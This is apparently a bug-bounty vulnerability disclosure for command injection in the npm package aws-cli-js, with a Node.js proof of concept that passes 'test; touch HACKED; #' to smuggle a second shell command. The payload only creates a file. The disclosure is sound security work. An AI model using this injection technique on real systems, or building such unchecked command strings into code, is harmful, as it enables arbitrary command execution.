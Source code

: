 # Overview

The issue occurs because a user input is formatted inside a command that will be executed without any check. The issue arises [here](https://github.com/Quobject/aws-cli-js/blob/master/src/index.ts#L28).

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
var awsCli = require("aws-cli-js");
var Options = awsCli.Options;
var Aws = awsCli.Aws;

var options = new Options("your key", "your key2", "your token", null);

var aws = new Aws(options);
aws.command("test; touch HACKED; #");
```

2. Check there aren't any files called `HACKED`.
3. Execute the following commands in another terminal:

```bash
npm i aws-cli-js # Install affected module
node poc.js #  Run the PoC
```

4. Recheck the files: now `HACKED` has been created.
